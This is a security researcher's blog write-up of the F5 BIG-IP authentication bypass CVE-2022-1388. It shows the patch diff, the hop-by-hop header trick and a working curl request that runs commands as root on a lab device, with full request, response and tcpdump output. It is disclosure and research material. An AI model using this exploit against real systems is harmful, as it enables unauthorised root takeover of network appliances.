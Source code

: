 ```yaml
---
title: "F5 BIG-IP iControl REST vulnerability CVE-2022-1388"
date: 2022-05-09T16:42:00+01:00
author: "Matus Bursa"
tags: ["F5", "CVE-2022-1388", "BIG-IP", "REST", "API"]
categories: ["vulns"]
---
```


Good afternoon to every security researcher. I would like to share my experience of finding announced vulnerability by internal F5 security team and writing the exploit for [CVE-2022-1388](https://support.f5.com/csp/article/K23605346).

You can read more about this vulnerability on [thehackernews](https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html) or [helpnetsecurity](https://www.helpnetsecurity.com/2022/05/09/cve-2022-1388-poc-exploitation/). [iControl REST](https://clouddocs.f5.com/api/icontrol-rest/) is an API for interaction between scripts and *F5 device*, used to manage and control that device automatically.  

Based on the details of the *mitigation*, the problem should be somewhere in the `Connection: ` header.

### mitigation
```apache
<If \"%{HTTP:connection} =~ /close/i \">
RequestHeader set connection close
</If>
<ElseIf \"%{HTTP:connection} =~ /keep-alive/i \">
RequestHeader set connection keep-alive
</ElseIf>
<Else>
    RequestHeader set connection close
</Else>
```

### inside the library

If we use `diff` and `strings` commands, we can see which strings were changed/added to the library, so I decided to download one from the vulnerable version `BIGIP-16.1.0-0.0.19` and one from the fixed version `BIGIP-16.1.2.2-0.0.28`

```bash
$ diff  <(strings mod_auth_pam.so_new ) <(strings mod_auth_pam.so_old)
...
259,261d243
< Connection
< close
< keep-alive
268d249
...
```

### header Connection

We know that in F5, there is `Jetty` server without authentication on `TCP/8100`, which we can hit for example from `localhost` (F5 device). We also know that there is `Apache` which does the *Authentication* for `Jetty`. We also know that we can abuse [hop-by-hop header](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers) there, but we don't know which header we should pass to the `Connection` header. For more details about hop-by-hop headers you can read [RFC2616](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)


### exploit

After couple of hours and tries I found the requirements to make the exploit functionable:
- `X-F5-Auth-Token` header must be present (that's a requirement for Apache sends request to Jetty backend)
- `Connection` header *must* include `X-F5-Auth-Token` (based on hop-by-hop headers this will delete `X-F5-Auth-Token` from the request sended to the backend)
- `Host` header *must* be `localhost` or `127.0.0.1` (Jetty either checks this value or you can put `X-Forwarded-Host` to `Connection` header to make `X-Forwarded-Host` header invisible for Jetty)
- `Authentication` header *must* be `admin` user

*curl*
```bash
$ curl -vvv -sk -X POST -H 'Content-Type: application/json' 'https://admin@192.168.52.10/mgmt/tm/util/bash' --data '{"command": "run" , "utilCmdArgs": " -c id
" }' -H 'X-F5-Auth-Token: -' -H 'Connection: close, X-F5-Auth-Token' -H 'Host: localhost'
*   Trying 192.168.52.10:443...
* Connected to 192.168.52.10 (192.168.52.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*  CAfile: /etc/ssl/cert.pem
*  CApath: none
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES128-GCM-SHA256
* ALPN, server did not agree to a protocol
* Server certificate:
*  subject: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  start date: May  7 08:55:32 2022 GMT
*  expire date: May  4 08:55:32 2032 GMT
*  issuer: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* Server auth using Basic with user 'admin'
> POST /mgmt/tm/util/bash HTTP/1.1
> Host: localhost
> Authorization: Basic YWRtaW46
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/json
> X-F5-Auth-Token: -
> Connection: close, X-F5-Auth-Token
> Content-Length: 45
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 10 May 2022 05:18:22 GMT
< Server: Jetty(9.2.22.v20170606)
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Content-Type: application/json; charset=UTF-8
< Allow:
< Pragma: no-cache
< Cache-Control: no-store
< Cache-Control: no-cache
< Cache-Control: must-revalidate
< Expires: -1
< Content-Length: 168
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Connection: close
<
* Closing connection 0
* TLSv1.2 (OUT), TLS alert, close notify (256):
{"kind":"tm:util:bash:runstate","command":"run","utilCmdArgs":" -c id","commandResult":"uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"}
```

*tcpdump* on F5 device
```bash
$ tcpdump -i lo -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504F5354'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 65535 bytes
22:18:22.457963 IP localhost.localdomain.59668 > localhost.localdomain.xprint-server: Flags [P.], seq 2917914269:2917914711, ack 2716646422, win 342, options [nop,nop,TS val 245887457 ecr 245887457], length 442
E...'.@.@..........................V.......
........POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost:8100
Authorization: Basic YWRtaW46
User-Agent: curl/7.79.1
Accept: */*
Content-Type: application/json
Local-Ip-From-Httpd: 192.168.52.10
X-F5-New-Authtok-Reqd: false
X-Forwarded-Proto: http
X-Forwarded-For: 192.168.52.1
X-Forwarded-Host: localhost
X-Forwarded-Server: localhost.localdomain
Connection: Keep-Alive
Content-Length: 45

{"command": "run" , "utilCmdArgs": " -c id" }
22:18:22.461910 IP localhost.localdomain.50416 > localhost.localdomain.48470: Flags [P.], seq 3235108301:3235108827, ack 1593436189, win 3631, options [nop,nop,TS val 245887461 ecr 245836911], length 526
E..B.d@.@.PO...........V....^....../.7.....
......,oPOST /tmapi_mapper/util/bash HTTP/1.1
Content-Type: application/json
Authorization: Basic YWRtaW46
X-Forwarded-For: 192.168.52.1
X-F5-Config-Api-Status: 1907
Referer: 192.168.52.1
User-Agent: com.f5.rest.common.RestRequestSender
Accept: */*
Connection: Keep-alive
X-Forwarded-Proto: http
X-Forwarded-Host: localhost
X-F5-New-Authtok-Reqd: false
Local-Ip-From-Httpd: 192.168.52.10
X-Forwarded-Server: localhost.localdomain
Content-Length: 45
Host: localhost:48470

{"command": "run" , "utilCmdArgs": " -c id" }
```

That's all from my side, you can look at python [exploit](https://github.com/horizon3ai/CVE-2022-1388) from [Horizon3Attack team](https://twitter.com/Horizon3Attack) or read their [blog: F5 iControl REST vulnerability.](https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/)

### twitter story

{{< tweet user="BursaMatus" id="1523379163914137600" >}}
